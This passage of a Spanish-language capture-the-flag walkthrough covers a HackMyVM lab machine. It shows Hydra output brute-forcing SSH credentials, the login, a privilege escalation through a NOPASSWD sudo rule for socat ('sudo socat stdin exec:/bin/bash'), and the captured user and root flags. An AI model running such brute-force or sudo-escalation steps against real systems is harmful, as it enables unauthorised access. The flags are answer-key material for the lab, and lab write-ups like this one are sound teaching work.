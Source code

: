 Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-04-16 04:03:30
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 561 login tries (l:1/p:561), ~9 tries per task
[DATA] attacking ssh://192.168.1.178:22/
[22][ssh] host: 192.168.1.178   login: atenea   password: sys8423hmv
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 17 final worker threads did not complete until end.
[ERROR] 17 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-04-16 04:04:10
```

Veremos que ha funcionado, por lo que vamos a conectarnos por `SSH` con dichas credenciales:

### SSH

```shell
ssh atenea@<IP>
```

Metemos como contraseña `sys8423hmv` y veremos que estaremos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
hmv{c4HqWSzRVKNDpTL}
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for atenea on hidden:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User atenea may run the following commands on hidden:
    (root) NOPASSWD: /usr/bin/socat
```

Veremos que podemos ejecutar el binario `socat` como el usuario `root` por lo que haremos lo siguiente:

```shell
sudo socat stdin exec:/bin/bash
```

Info:

```
whoami
root
```

Veremos que seremos `root` por lo que leeremos la `flag` de `root`.

> root.txt

```
hmv{2Mxtnwrht0ogHB6}
```
